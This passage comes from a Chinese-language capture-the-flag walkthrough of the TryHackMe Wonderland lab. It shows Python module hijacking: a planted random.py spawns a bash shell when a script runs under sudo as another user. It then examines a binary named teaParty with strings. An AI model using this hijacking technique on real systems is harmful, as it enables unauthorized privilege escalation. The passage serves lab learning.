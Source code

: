 ```
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

# 分析源代码,看上去只是随机输出10行诗句，但是假如我们在同目录创建一个random.py,并且py的代码如下，那么我们执行时就可以拿到rabbit的shell。这实际上是利用了python的包含文件原理，如果同目录有同名文件，则优先包含同目录的，其次才去找库文件有没有同名文件
```
# random.py
import os
os.system("/bin/bash")
```

# 执行
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```

# 现在我们拿到了rabbit的shell，在/home/rabbit目录，发现一个二进制文件teaParty，执行提示
```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 17 Sep 2021 07:42:14 +0000
Ask very nicely, and I will give you some tea while you wait for him
hello?
Segmentation fault (core dumped)

```

# 我们把teaParty这个二进制文件传回kali攻击机，用strings命令查看（strings命令在对象文件或二进制文件中查找可打印的字符串。字符串是4个或更多可打印字符的任意序列，以换行符或空字符结束）
```
┌──(root💀kali)-[~/tryhackme/wonderland]
└─#  strings teaParty
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
```